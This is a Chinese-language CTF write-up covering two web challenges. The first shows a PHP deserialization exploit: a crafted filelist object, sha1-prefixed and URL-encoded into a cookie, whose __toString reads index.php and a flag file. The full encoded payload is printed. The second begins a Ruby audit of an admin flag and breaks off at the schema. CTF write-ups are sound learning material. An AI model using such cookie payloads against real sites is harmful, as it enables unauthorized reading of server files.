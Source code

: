 感觉确实有点奇怪

### Text wall

在页面里存在.index.php.swo

显然，我们要调用__toString函数去highlight_file我们想看到的数据。

这里用到了一个小技巧，php中数组里面有一个对象，它会期望那个对象为string类型。所以，如果对象是一个序列化就会自动调用__toString

所以，我们可以这样构造

```php
$lists = [];
Class filelist{
    function __construct($var){
        $this->source = $var;
    }
    public function __toString()
    {
        return highlight_file('hiehiehie.txt', true).highlight_file($this->source, true);
    }
}

$file = new filelist('index.php');
$lists = array($file);
#var_dump(serialize($file));
var_dump(serialize($lists));
```

然后，对其sha1 补充到前面，后面url编码一下，放到cookie里面

```url
f3a6de2497f71356a3995e26a1f4f64ae48e80b1%61%3a%31%3a%7b%69%3a%30%3b%4f%3a%38%3a%22%66%69%6c%65%6c%69%73%74%22%3a%31%3a%7b%73%3a%36%3a%22%73%6f%75%72%63%65%22%3b%73%3a%39%3a%22%69%6e%64%65%78%2e%70%68%70%22%3b%7d%7d
```

这样就能看到index.php的源码

![index](https://mo-xiaoxi.github.io/img/post/NJCTF/index.png)

/var/www/PnK76P1IDfY5KrwsJrh1pL3c6XJ3fj7E_fl4g同样序列化读取一下就好

PS: 据说可以找到原题：[https://losfuzzys.github.io/writeup/2016/10/02/tumctf-web50/](https://losfuzzys.github.io/writeup/2016/10/02/tumctf-web50/)

### Blog

ruby的代码审计 不大会

Tips：ruby审计思路，i可以首先看route 然后找逻辑。对应着页面找到实现代码

看了下别人的WP

主要问题在于，table users在定义的时候，有一列标志其是否为admin，默认为false

```ruby

  create_table "users", force: true do |t|
    t.string   "name"
    t.string   "email"
    t.datetime "created_at"
    t.datetime "updated_at"
    t.string   "password_digest"
    t.string   "remember_token"
    t.boolean  "admin",           default: false
  end

```
